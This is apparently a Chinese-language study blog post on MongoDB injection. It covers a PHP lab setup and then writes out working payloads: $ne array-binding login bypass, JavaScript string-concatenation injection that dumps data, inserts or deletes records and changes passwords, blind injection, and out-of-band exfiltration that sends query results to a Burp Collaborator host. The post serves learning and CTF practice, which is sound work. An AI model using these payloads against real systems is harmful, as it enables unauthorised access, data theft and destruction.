

MONGODB注入学习
写在前面
主要是对网上paper的一些总结以及最近遇到场景的一些总结。
千万不要用php7搭环境！千万不要用php7搭环境！千万不要用php7搭环境！
对比一下代码量可以发现php7的mongodb扩展实在是太恶心了。所以不嫌麻烦的话建议用ubuntu14。
php5
1 | (new MongoClient())->{$db}->{$collection}->findOne(['_id' => $id]); |
php7
1 | $mongo = new MongoDB\Driver\Manager(); |
环境搭建
lamp环境
1 | sudo apt-get apache2 |
安装php mongdb扩展
1 | pecl install mongodb |
额外安装mongodb server，注意不要用apt-get自带的安装，那个版本貌似比较低，用不了简洁的php写法
1 | wget https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-ubuntu1404-3.4.9.tgz |
将extension=mongodb.so放入的php.ini中，因为装的apache故修改/etc/php/7.0/apache2
另外mongodb还有一个28017端口是mongodb的web管理接口


基本简单操作
切换或创建数据库
1
use runoob
删除数据库
1
db.dropDatabase()
创建集合
1
db.site.insert("goole":"www.google.com")
删除集合
1
db.site.drop()
插入文档
1
2
3
4db.users.insert({
username:"cl0und",
password:"cl0und1pass"
})更新文档
update法1
db.site.update({'title':'MongoDB 教程'},{$set:{'title':'MongoDB'}})
save法
1 | db.collection.save( |
删除文档
1 | db.collection.remove( |
主要说说查找
在我所见的paper中基本上都是讲通过查找注入。
1 | db.user.find({'id':{$gt:1}}) #从当前数据库的集合user中查找id大于1文档 |
可以发现查询的时候常常会用一些逻辑操作符，而一部分注入姿势就是由此而来的（下面会说到）
- gt 大于 {“field”: {$gt: value}}
- lt 小于 {“field”: {$lt: value}}
- gte 大于等于 {“field”: {$gte: value}}
- lte 小于等于 {“field”: {$lte: value}}
- ne 不等于 {“member.age”: {$ne: “mine”}}
- exists 存在与否 {“member”: {$exists: true}}}
- in 包含 {“member.age”: {$in: [null], “$exists: true”}}
- exists 存在与否 {“couponsCode.0”: {$exists: 1}} #数组存在第一条数据
- or 或者 {“$or”: [{“member.age”: “23”}, {“member.name”: “23333”}]}
- and 并且 {“$and”: [{“member.age”: “23”}, {“member.name”: “23333”}]}
- regex 正则 ({“name”:{“$regex”:’^a$’}})
- size 个数 ({“name”:{“$size”:3}}) # $size name元素数为3
注入姿势
开始之前先写一点测试数据进mongodb
1 | use test |
回显注入-数组绑定注入
偷了一个网上的脚本。可以把他看到成一个简单的登陆验证demo
1 |
|
正常url http://192.168.62.151/mongo.php?username=cl0und&password=cl0und1pass
相当于执行了
1 | db.users.find({username:"cl0und",password:"cl0und1pass"}) |

那么结合php可以传数组的特性可以
注入url http://192.168.62.151/mongo.php?username[$ne]=cl0und&password[$ne]=cl0und1pass

相当于执行了
1 | db.users.find({username:{$ne:"cl0und"},password:{$ne:"cl0und1pass"}}) |
这样通过数组的嵌套成功的改变了代码执行的逻辑，下面的例子来自于一次做题
这里要通过员工的工号才能注册，但是在不知道工号情况下可以尝试注入。抓包可以发现数据是以json格式上传的，以及之前步骤的一些提示可以猜到后台数据库是以mongodb。因为2333这个工号不存在，而jobnumber这个点又有注入，所以成功绕过注册限制。


回显注入-字符串拼接注入
这种注入特点和传统的sql注入类似，因为程序员直接拼接的sql语句，造成代码与数据边界不清。因为mongoddb是用js来操作的，所以注入语句符合js语法就好。偷脚本
1 |
|
网上的payload靠注释改变代码逻辑，但是实际使用不行，原因大概该是高版本不支持注释的原因http://192.168.62.151/mongo.php?username=cl0und%27});return%20{username:1,password:2};//&password=cl0und1pass1
可以改变策略闭合后面的代码http://192.168.62.151/mongo.php?username=cl0und'});return ({username:1,password:2});var foo = ({'foo':'&password=cl0und1pass1
然后后续步骤和sql注入类似

查看版本()http://192.168.62.151/mongo.php?username=cl0und'});return ({username:version(),password:2});var foo = ({'foo':'
查看当前数据库http://192.168.62.151/mongo.php?username=cl0und'});return ({username:tojson(db),password:2});var foo = ({'foo':'
查看当前集合http://192.168.62.151/mongo.php?username=cl0und'});return {username:tojson(db.getCollectionNames()),password:2};({foo:'1&password=123456
查看文档http://192.168.62.151/mongo.php?username=cl0und'});return {username:tojson(db.users.find()),password:2};({foo:'1&password=123456
这里貌似一次性不能查看全部，这样会回显一些，看起来像是内部的脚本，暂时不知道是什么

需要一条一条的看

联想到多条语句执行，是不是可以插入数据？http://192.168.62.151/mongo.php?username=cl0und'});db.users.insert({username:"localguy",password:"localguy"});var foo = ({'foo':'
那还能删除数据http://192.168.62.151/mongo.php?username=cl0und'});db.users.remove({username:"localguy",password:"localguy"});var foo = ({'foo':'
还能删库跑路http://192.168.62.151/mongo.php?username=cl0und'});db.users.remove({});var foo = ({'foo':'
更新别人密码http://192.168.62.151/mongo.php?username=cl0und'});db.users.update({'username':'cl0und'},{$set:{'password':'hack'}});var foo = ({'foo':'
布尔盲注
以一个例子说明，注册一个用户名为cctrue,这里的功能是根据上传的用户名，查询所管理的机器（没有越权）
当传上去的用户名正常的时候
当不存在用户名，或者身份验证失败的时候
测试出注入点
盲注思路是用表达式的结果为true时和cc相加重新变成用户名ccture

确认版本信息
同样可以用于bool盲注还有$regix操作符
时间盲注
给个demodb.users.find({'$where':'function() {sleep(5000);}'})
在数组绑定的代码下实验这个demo,发现因为mongodb或者php驱动的限制，不能正常用http://192.168.62.151/mongo.php?username=cl0und&password[$where]=function(){return%20sleep((5000);}
带外注入
实际没有用过，仅仅作一种探索
查看版本db.copyDatabase('cl0und','test',version()+'.wssyoum9pyibk4uaukl9y0okxb31rq.burpcollaborator.net')
因为查询出来的json格式有和url标准冲突的特殊字符所以需要剔除，还有每个文档一般都会有一个 _id ,z这个id也往往不那么重要所以也可以剔除。在看文档的想找到mongodb有关base64或者16进制的字符串转换方法，不过很可惜没有找到，所以做了一下的折中处理。
db.copyDatabase('cl0und','test',tojson(db.users.findOne({},{_id:0})).replace(new RegExp(":| |,|\"|{|}","gm"),"")+'.e2hvfklnuw3ciolc2r4s9hd9o0uqif.burpcollaborator.net')

留坑
- 多个mongodb节点数据不一致性
- CSRF
最后
寒假快乐
参考
http://drops.chamd5.org/#!/drops/405.Mongodb%E6%B3%A8%E5%85%A5%E6%94%BB%E5%87%BB
http://03i0.com/2017/10/17/mongodb%E5%AE%89%E5%85%A8%E6%80%BB%E7%BB%93/